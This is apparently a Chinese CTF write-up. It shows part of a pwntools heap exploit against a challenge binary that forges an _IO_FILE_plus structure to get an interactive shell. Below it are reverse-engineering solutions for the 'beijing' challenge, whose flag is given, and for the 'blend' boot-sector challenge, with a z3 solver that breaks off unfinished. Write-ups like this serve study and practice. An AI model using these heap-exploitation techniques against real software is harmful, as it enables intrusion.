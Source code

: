 ```python
change(0,p64(0x60203d)+'\n')
new(2,"333")
new(3,"4"*19 + p64(0x602088)+p64(0x6020f0)+p64(0x602158)+p64(0x6021c0)+p64(0x602020))
s = _IO_FILE_plus().tostr()
print len(s)
change(0,s[0:0x68])
change(1,s[0x68:0xd0])
change(2,s[0xd0:] + p64(0)*2 + p64(0x4008E3)*9)
change(3,p64(0x4008E3)*13)
p.recvuntil("Choice:")
p.sendline("2")
p.recvuntil("Index:")
p.sendline('4')
p.recvuntil("Content:")
p.sendline(p64(0x602088))
p.sendline("your token")
p.interactive()
```
##reverse
###beijing
本题静态分析即可,flag在data段上被打乱放置, 和程序的输出结果形成索引,  根据输出结果推算出flag为:
`flag{amazing_beijing}`
###blend
题目分析拿到的是个DOS/MBR boot sector, 根据之前做过的[CSAW逆向题](https://github.com/TechSecCTF/writeups/blob/master/CSAWQuals2017/realism/README.md)遇到过这种模式的题目,照着思路调试了一遍
```bash
xxx@xx  ~/ctf/china/advanced  file main.bin 
main.bin: DOS/MBR boot sector
 xxx@xx ~/ctf/china/advanced  strings main.bin 
flag
a} ==>
== ENTER FLAG ==
 CORRECT! 
!! WRONG FLAG !!
```
payload如下:
```python
#!/usr/bin/env python
from pprint import pprint
from z3 import *
import struct

s = Solver()
ZERO = IntVal(0)

def z3_abs(x):
   return If(x >= 0, x, -x)

def psadbw(xmm1, xmm2):
   first  = Sum([z3_abs(b1 - b2) for b1,b2 in zip(xmm1[:8], xmm2[:8])])
   second = Sum([z3_abs(b1 - b2) for b1,b2 in zip(xmm1[8:], xmm2[8:])])
   return (first, second)
[0x2DD02F6, 0x2DC02E8, 0x2D802ED, 0x2CE02E2, 0x2C402E2, 0x2D402DB, 0x2D902CD, 0x3110304]
_results = [
   (0x02dd, 0x02f6),
   (0x02dc, 0x02e8),
   (0x02d8, 0x02ed),
   (0x02ce, 0x02e2),
   (0x02c4, 0x02e2),
   (0x02d4, 0x02db),
   (0x02d9, 0x02cd),
   (0x0311, 0x0304)
] [::-1]

```